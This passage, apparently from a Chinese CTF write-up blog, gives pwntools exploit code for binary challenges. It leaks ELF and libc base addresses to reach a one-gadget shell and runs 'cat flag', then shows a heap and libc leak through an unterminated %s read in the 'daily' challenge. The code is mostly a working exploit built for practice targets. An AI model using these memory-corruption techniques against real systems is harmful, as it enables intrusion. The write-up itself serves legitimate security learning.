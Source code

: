 ```python
		p.sendline(str(index+i))
		p.recvuntil("now value(hex) ")
		data = p.recvn(1)
		#print("data = " + str(data))
		p.recvuntil("input new value\n")
		p.sendline(str(addr))
		addr = addr >> 8
def leak(index):
	addr = ""
	for i in range(8):
		p.recvuntil("index\n")
		p.sendline(str(index+i))
		p.recvuntil("now value(hex) ")
		data = int(p.recvuntil("\n",drop=True),16)
		if data > 300:
			data = data - 0xffffff00
		p.recvuntil("input new value\n")
		p.sendline(str(data))
		addr += chr(data)
	addr = u64(addr)
	return addr
def exp():
	pass_()
	#gdb.attach(p)addr = leak(0x158)
	elf_base = addr - 0xb11
	print '[*] elf_base :',hex(elf_base)
	addr = leak(0x160+0x118)
	libc_base = addr - 0x20830
	one_shot = libc_base + 0xf02a4
	print '[*] one_shot :',hex(one_shot)
	print '[*] libc_base :',hex(libc_base)
	pause()
	change(0x158,one_shot)
	p.sendline("no")
	p.sendline("cat flag")
	p.interactive()
exp()
```
![3](/img/2019-04-23/3.png)
#### daily
由于是`%s`打印内 容，会一直打印遇到`\x00`才会停止，而且`add`的时候通过`read`读入没有写入字符串后缀，所以可以利用这一点可以泄露`libc`地址和`heap`地址。泄露利用如下：
```
create(0x60,"a"*0x20)#0
create(0x60,"a"*0x20)#1
create(0x60,"b"*0x20)#2
delete(0)
delete(1)
create(0x60,"a")#0
show()
p.recvuntil("0 : a")
data = "\x00"+p.recvuntil("2",drop=True)
heap = u64(data.ljust(8,"\x00"))
print "[*]heap : ", hex(heap)
```